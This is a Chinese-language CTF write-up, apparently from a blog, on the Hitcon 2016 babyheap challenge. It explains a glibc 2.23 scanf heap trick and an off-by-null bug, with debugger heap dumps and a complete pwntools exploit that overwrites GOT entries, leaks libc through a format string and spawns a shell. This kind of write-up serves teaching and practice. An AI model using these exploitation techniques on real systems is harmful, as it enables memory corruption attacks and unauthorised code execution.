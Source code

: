 ```yaml
---
clayout: post
title:  "scanf malloc"
date:   2020-2-20
desc: ""
keywords: ""
categories: [Binary]
tags: [pwn]
icon: icon-html
---
```


#scanf malloc

# scanf

# scanf malloc

glibc2.23后，scanf的缓冲区在堆中，利用scanf可以触发malloc申请比较大的堆块

## Hitcon2016-babyheap

```c
struct note{
    int len;
    char name[8];
    char *content;
};
```

add 新建note

edit 根据content指针找content，只能edit一次

```C
int edit()
{
  if ( !ptr || dword_6020A4 )
  {
    puts("bye bye");
    _exit(0);
  }
  printf("Content:");
  fuck_read(*(ptr + 2), *ptr);
  ++dword_6020A4;
  return puts("Done!");
}
```

delete free note和content

只能有一个note

```c
char *__fastcall fuck_read(char *a1, int a2)
{
  char *result; // rax
  int v3; // [rsp+1Ch] [rbp-4h]

  v3 = read(0, a1, a2);
  if ( v3 <= 0 )
  {
    puts("Error");
    _exit(-1);
  }
  result = &a1[v3];
  *result = 0;
  return result;
}
```

在输入name和content时都是调用这个函数，存在off by null

在输入name时off by null可以覆盖content指针

```c
      else if ( v3 == 4 )
      {
        printf("Really? (Y/n)", a2);
        a2 = &v4;
        __isoc99_scanf("%2s", &v4);
        if ( v4 != aN[0] )
          _exit(0);
      }
```

调用scanf

### exp

1. scanf，得到一个大chunk，在接下来覆盖后的content指针指向的位置伪造堆块

2. add，name中off by null覆盖content指针，content中伪造size

   ```c
   pwndbg> x/256gx 0x603000
   0x603000:       0x0000000000000000      0x0000000000001011
   0x603010:       0x000000000000006e      0x0000000000000000
   ......
   pwndbg> x/64gx 0x603fe0
   0x603fe0:       0x0000000000000000      0x0000000000000000
   0x603ff0:       0x0000000000000000      0x0000000000000081//fake chunk
   0x604000:       0x0000000000000000      0x0000000000000000
   0x604010:       0x0000000000000000      0x0000000000000021
   0x604020:       0x0000000000000080      0x6161616161616161//off by null
   0x604030:       0x0000000000604000      0x0000000000000091
   0x604040:       0x0000000000000000      0x0000000000000000
   0x604050:       0x0000000000000000      0x0000000000000000
   0x604060:       0x0000000000000000      0x0000000000000000
   0x604070:       0x0000000000000000      0x0000000000000041//size
   0x604080:       0x0000000000000000      0x0000000000000000
   0x604090:       0x0000000000000000      0x0000000000000000
   0x6040a0:       0x0000000000000000      0x0000000000000000
   0x6040b0:       0x0000000000000000      0x0000000000000000
   0x6040c0:       0x0000000000000000      0x0000000000020f41
   ```

3. free，note和fake chunk被free

   ```c
   fastbins
   0x20: 0x604010 ◂— 0x0
   0x30: 0x0
   0x40: 0x0
   0x50: 0x0
   0x60: 0x0
   0x70: 0x0
   0x80: 0x603ff0 ◂— 0x0
   ```

4. add，content申请到fake chunk的位置，输入content可以覆盖note中的content指针，覆盖为exit_got

5. edit，把exit改成ret，在edit中执行exit(0);直接返回，可以多次edit， 把atoi改成printf，格式化字符串泄露libc。中间遇到其他函数，需要用的就改成原来的plt，不需要的直接p64(0)

6. 此时调用atoi就是调用printf，返回值为输出的字节数，格式化字符串泄露libc

7. 输入三字节，返回值3，进edit，把atoi改成system

8. 输入/bin/sh

```python
from pwn import *
#r = remote('node3.buuoj.cn',27921)
r = process('./babyheap_hitcon_2016')
elf = ELF('./babyheap_hitcon_2016')
libc = ELF('/libc-2.23.so')

def add(size,content,name):
	r.sendlineafter('Your choice:','1')
	r.sendlineafter('Size :',str(size))
	r.sendafter('Content:',content)
	r.sendafter('Name:',name)

def free():
	r.sendlineafter('Your choice:','2')

def edit(content):
	r.sendlineafter('Your choice:','3')
	r.sendafter('Content:',content)


r.sendafter('Your choice:','4')
r.recvuntil('(Y/n)')
chunk = 'n'+'\x00'*(0x1000-1-0x20)+p64(0)+p64(0x81)+p64(0)*2
r.sendline(chunk)
add(0x80,p64(0)*7+p64(0x21),'a'*8)
free()
add(0x70,p64(0)*3+p64(0x41)+p64(0x60)*2+p64(elf.got['_exit']),'aaaa')



payload = p64(0x400c9d)
payload += p64(elf.plt['read']+6)
payload += p64(elf.plt['puts']+6)
payload += p64(0)
payload += p64(elf.plt['printf']+6)
payload += p64(0) 
payload += p64(elf.plt['read']+6)
payload += p64(0)*4
payload += p64(elf.plt['printf']+6)
edit(payload)


r.recvuntil('Your choice:')
r.send('%7$p')
r.recvuntil('0x')
leak = int(r.recvuntil('Invalid',drop=True),16)
log.success(hex(leak))
libc_base = leak-362-libc.sym['_IO_puts']
log.success(hex(libc_base))
system=libc_base+libc.sym['system']
log.success(hex(system))
r.send('333')

payload = p64(0x400c9d)
payload += p64(elf.plt['read']+6)
payload += p64(elf.plt['puts']+6)
payload += p64(0)
payload += p64(elf.plt['printf']+6)
payload += p64(0) 
payload += p64(elf.plt['read']+6)
payload += p64(0)*4
payload += p64(system)
r.send(payload)
r.send('/bin/sh\x00')
r.interactive()
```

